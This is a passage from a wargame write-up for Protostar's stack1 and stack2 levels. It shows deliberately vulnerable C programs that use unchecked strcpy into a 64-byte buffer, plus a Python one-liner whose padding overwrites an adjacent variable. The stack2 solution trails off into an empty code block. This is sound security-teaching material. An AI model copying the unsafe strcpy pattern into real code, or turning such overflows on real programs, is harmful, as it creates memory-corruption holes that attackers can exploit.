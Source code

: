 ```cpp
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Instead of using `gets`, this time the binary use `strcpy` to copy value from argument passed from cmd, but it still the same, because strcpy doesn't check input length. This time we need to change the value of `modified` to a specific value. The hint also mention that the machine itself is in little endian. so we need to carefully craft our padding to match the buffer length (which is 64 bytes), then we gonna pad "dcba" to it. Why? because `0x61626364` respectively standfor "abcd" in hex value, but since our machine is little endian, we need to reverse the order
```py
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'a'*0x40 + 'dcba'")
you have correctly got the variable to the right value
```
## Stack 2
### About
Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

#### Source
```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
Just like the previous stack1, but this time it take input from environment variable. All we just need is use the same padding from stack1, then `export GREENIE= padding`.
```py
```
